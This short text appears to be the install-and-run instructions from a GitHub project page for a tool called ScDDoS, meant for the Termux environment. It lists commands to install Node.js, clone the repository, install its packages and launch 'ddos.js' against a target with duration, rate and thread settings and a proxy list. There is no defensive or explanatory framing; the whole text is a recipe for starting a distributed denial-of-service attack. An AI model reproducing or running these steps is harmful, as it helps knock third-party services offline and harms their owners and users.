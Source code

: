 pkg upgrade && pkg update 
pkg install nodejs
git clone https://github.com/Debygood/ScDDoS
cd ScDDoS
npm i
node ddos.js target 120 500 9 proxy.txt
